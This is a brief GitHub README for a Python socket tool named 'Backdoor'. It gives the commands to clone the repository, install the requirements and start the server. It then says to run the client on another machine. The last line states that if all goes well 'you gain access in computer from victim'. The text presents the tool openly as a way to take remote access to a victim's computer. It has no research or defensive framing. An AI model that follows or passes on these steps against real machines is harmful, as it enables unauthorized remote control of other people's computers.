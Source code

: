 # Backdoor

Example of a server and a client keep communication using sockets in python. 

Steps:


clone the project

```sh
$ git clone https://github.com/jmessiass/backdoor.git
```
install requirements and execute the server using python 3 (I recommend to use pyenv).
```sh
$ cd backdoor
$ pip install -r requirements.txt
$ python server.py -p 12345 (choose any port)
```
in another machine, execute the client (before run the client, set the IP from server in HOST and using the same PORT from server)

```sh
$ python client.py
```
if everything occurred good you gain access in computer from victim.
